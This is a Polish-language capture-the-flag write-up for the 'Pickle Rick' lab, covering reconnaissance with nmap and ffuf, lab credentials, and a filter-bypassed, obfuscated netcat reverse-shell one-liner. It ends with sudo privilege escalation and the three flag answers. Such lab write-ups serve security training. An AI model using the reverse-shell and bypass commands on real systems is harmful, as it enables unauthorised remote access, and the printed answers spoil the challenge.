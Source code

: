 # Pickle Rick v2
IP=10.10.168.136

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.168.136
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-03 12:31 EDT
Nmap scan report for 10.10.168.136
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 13:13:4c:4e:f5:51:ac:71:e0:1a:98:ac:07:94:6b:b0 (RSA)
|   256 73:60:e3:9c:24:43:d1:15:d6:32:8d:7a:24:3e:6c:98 (ECDSA)
|_  256 4f:0c:c0:e4:44:d6:4e:92:21:d9:47:c9:df:0b:6b:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
```

Zostały wykryte dwa porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Widzimy, że celem jest znalezienie trzech tajnych składników. Patrzymy na źródło strony:

![Username](img/Username.JPG)

W komentarzu znajdujemy nazwę użytkownika.

```
R1ckRul3s
```

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.26.100/FUZZ -c -e ".php"
```

![FFuf](img/FFuf.JPG)

Sprawdzamy folder "robots.txt":

![Robots](img/Robots.JPG)

```
Wubbalubbadubdub
```

Znaleziony ciąg znaków może być hasłem. Sprawdzamy następnie podstronę login.php:

![Login](img/Login.JPG)

Próbujemy się zalogować do systemu za pomocą znalezionych danych do logowania:

```
R1ckRul3s:Wubbalubbadubdub
```

Po zalogowaniu widzimy panel poleceń:

![Portal](img/Portal.JPG)

## Eksploitacja

Za pomocą panelu jesteśmy w stanie komunikować się bezpośrednio z serwerem, jednak większość komend jest zablokowana:

![Disabled](img/Disabled.JPG)

Szukamy obejścia tego zabezpieczenia na stronie [hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions):

![Bypass](img/Bypass.JPG)

Spróbujemy uzyskać dostęp do systemu poprzez zmodyfikowaną komendę reverse shell'a. Najpierw nasłuchujemy połączeń za pomocą narzędzia netcat, a następnie wykonujemy komendę:

```
nc -lvnp [Port]
```

```
r""m /tmp/f;m""kfifo /tmp/f;c""at /tmp/f|sh -i 2>&1|n""c [IP] [PORT] >/tmp/f
```

Po jej wykonaniu uzyskujemy dostęp do systemu:

![System](img/System.JPG)

Odczytujemy pierwszy tajny składnik:

![Flag1](img/Flag1.JPG)

```
mr. meeseek hair
```

W pliku clue.txt dostajemy podpowiedź, aby rozejrzeć się po systemie w celu znalezienia innych tajnych składników:

![Clue](img/Clue.JPG)

W katalogu domowym rick'a znajdujemy drugi tajny składnik:

![Flag2](img/Flag2.JPG)

```
1 jerry tear
```

## Zwiększenie poziomu uprawnień

Użytkownik www-data może wykonać wszystkie komendy jako root:

![Sudo](img/Sudo.JPG)

Wykorzystujemy to do zdobycia uprawnień root'a:

![Root](img/Root.JPG)

W katalogu root'a znajdujemy trzeci tajny składnik:

![Flag3](img/Flag3.JPG)

```
fleeb juice
```

Do zobaczenia na kolejnych CTF-ach!

